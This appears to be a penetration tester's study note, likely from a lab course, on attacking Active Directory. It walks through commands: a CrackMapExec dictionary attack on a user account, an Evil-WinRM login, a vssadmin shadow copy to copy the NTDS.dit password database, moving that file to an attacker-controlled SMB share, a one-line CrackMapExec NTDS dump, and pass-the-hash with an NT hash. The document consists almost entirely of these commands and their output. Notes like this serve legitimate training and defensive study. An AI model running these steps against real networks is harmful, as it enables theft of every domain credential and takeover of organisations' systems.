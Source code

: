 #windows/auth/AD/NTDS

# Dictionary Attacks against AD accounts using CrackMapExec
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
 ```

# Capturing NTDS.dit
NT Directory Services (NTDS) is the directory service used with AD to find & organize network resources. Recall that NTDS.dit file is stored at %systemroot%/ntds on the domain controllers in a forest. The .dit stands for directory information tree. This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information.
### Connecting to a DC with Evil-WinRM
```bash
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```
### Checking Local Group Membership
```
*Evil-WinRM* PS C:\> net localgroup
```
To make a copy of the NTDS.dit file, we need local admin (Administrators group) or Domain Admin (Domain Admins group) (or equivalent) rights.
### Checking User Account Privileges including Domain
```
*Evil-WinRM* PS C:\> net user bwilliamson
```
### Creating Shadow Copy of C: with vssadmin
```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```
### Copying NTDS.dit from the VSS
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```
### Transferring NTDS.dit to Attack Host
```
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```
# A Faster Method: Using crackmapexec to Capture NTDS.dit
```bash
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```
# Pass-the-Hash with Evil-WinRM Example
If cracking NTDS hash no successfull, we can use hash directly:
```bash
evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```
